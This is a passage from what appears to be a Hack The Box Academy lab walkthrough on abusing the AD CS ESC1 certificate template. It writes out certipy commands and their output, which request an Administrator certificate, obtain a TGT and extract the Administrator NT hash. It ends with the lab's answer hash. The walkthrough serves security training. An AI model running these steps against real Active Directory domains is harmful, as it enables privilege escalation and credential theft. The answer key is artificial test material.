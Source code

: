 ```shell-session
┌─[us-academy-1]─[10.10.15.48]─[htb-ac-413848@htb-7vhyh3ar8o]─[~]
└──╼ [★]$ sudo sh -c 'echo "10.129.228.236 lab.local lab-LAB-DC-CA LAB-DC.lab.local" >> /etc/hosts'
```

Subsequently, to abuse `ESC1`, students need to use the `req` command of `certipy`, specifying the template `ESC1` for the `-template` option and the `UPN` `Administrator` for the `-upn` option; students will attain a `PFX` certificate for the `Administrator` user:

Code: shell

```shell
certipy req -u blwasp@lab.local -p Password123! -ca lab-LAB-DC-CA -template ESC1 -upn Administrator
```

```shell-session
┌─[us-academy-1]─[10.10.15.48]─[htb-ac-413848@htb-7vhyh3ar8o]─[~]
└──╼ [★]$ certipy req -u blwasp@lab.local -p Password123! -ca lab-LAB-DC-CA -template ESC1 -upn Administrator

Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Successfully requested certificate
[*] Request ID is 63
[*] Got certificate with UPN 'Administrator'
[*] Certificate has no object SID
[*] Saved certificate and private key to 'administrator.pfx'
```

Utilizing the certificate, students need to use the `auth` command of `certipy` to request a TGT for `Administrator` and `Un-PAC-the-hash` within it; students will attain the NT hash `2b576acbe6bcfda7294d6bd18041b8fe`:

Code: shell

```shell
certipy auth -pfx administrator.pfx -domain lab.local
```

```shell-session
┌─[us-academy-1]─[10.10.15.48]─[htb-ac-413848@htb-7vhyh3ar8o]─[~]
└──╼ [★]$ certipy auth -pfx administrator.pfx -domain lab.local

Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Using principal: administrator@lab.local
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@lab.local': aad3b435b51404eeaad3b435b51404ee:2b576acbe6bcfda7294d6bd18041b8fe
```

Answer: `2b576acbe6bcfda7294d6bd18041b8fe`

## ESC1
